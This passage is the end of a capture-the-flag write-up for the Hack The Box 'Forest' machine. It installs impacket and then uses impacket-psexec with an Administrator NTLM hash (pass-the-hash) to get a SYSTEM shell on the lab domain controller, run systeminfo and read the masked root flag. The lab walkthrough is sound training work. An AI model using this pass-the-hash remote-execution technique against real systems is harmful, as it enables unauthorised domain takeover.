    Requirement already satisfied: ldapdomaindump>=0.9.0 in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (0.9.3)
    Requirement already satisfied: pyOpenSSL>=0.16.2 in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (20.0.1)
    Requirement already satisfied: pyasn1>=0.2.3 in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (0.4.8)
    Requirement already satisfied: pycryptodomex in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (3.9.7)
    Requirement already satisfied: six in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (1.16.0)
    Building wheels for collected packages: impacket
      Building wheel for impacket (setup.py) ... done
      Created wheel for impacket: filename=impacket-0.9.23.dev1+20210519.170900.2f5c2476-py3-none-any.whl size=1397782 sha256=39758aa69b8434256a2f79b26209d55225fecd0090950c922499e17de963a10f
      Stored in directory: /tmp/pip-ephem-wheel-cache-ln48imhy/wheels/7a/85/ca/606ceaff4c6e06dc108bb711bd0c0de17bc79b379a138a14c9
    Successfully built impacket
    Installing collected packages: impacket
      Attempting uninstall: impacket
        Found existing installation: impacket 0.9.22
        Not uninstalling impacket at /usr/lib/python3/dist-packages, outside environment /usr
        Can't uninstall 'impacket'. No files were found to uninstall.
    Successfully installed impacket-0.9.23.dev1+20210519.170900.2f5c2476
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [HTB/Forest/impacket]
    → sudo python3 setup.py install
    
    

Then use it with the admin hash:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [HTB/Forest/impacket]
    → impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/Administrator@10.10.10.161
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file kvZZufbZ.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service HFYI on 10.10.10.161.....
    [*] Starting service HFYI.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>systeminfo
    
    Host Name:                 FOREST
    OS Name:                   Microsoft Windows Server 2016 Standard
    OS Version:                10.0.14393 N/A Build 14393
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Primary Domain Controller
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00376-30821-30176-AA930
    Original Install Date:     9/18/2019, 10:07:59 AM
    System Boot Time:          5/24/2021, 9:09:23 AM
    System Manufacturer:       VMware, Inc.
    System Model:              VMware7,1
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume2
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 635 MB
    Virtual Memory: Max Size:  2,431 MB
    Virtual Memory: Available: 990 MB
    Virtual Memory: In Use:    1,441 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    htb.local
    Logon Server:              N/A
    Hotfix(s):                 3 Hotfix(s) Installed.
                               [01]: KB3199986
                               [02]: KB4512574
                               [03]: KB4103720
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) 82574L Gigabit Network Connection
                                     Connection Name: Ethernet0
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.161
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
    
    C:\Windows\system32>cd ..
    
    C:\Windows>cd ..
    
    C:\>cd Users\Administrator\Desktop
    
    C:\Users\Administrator\Desktop>type root.txt
    f0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

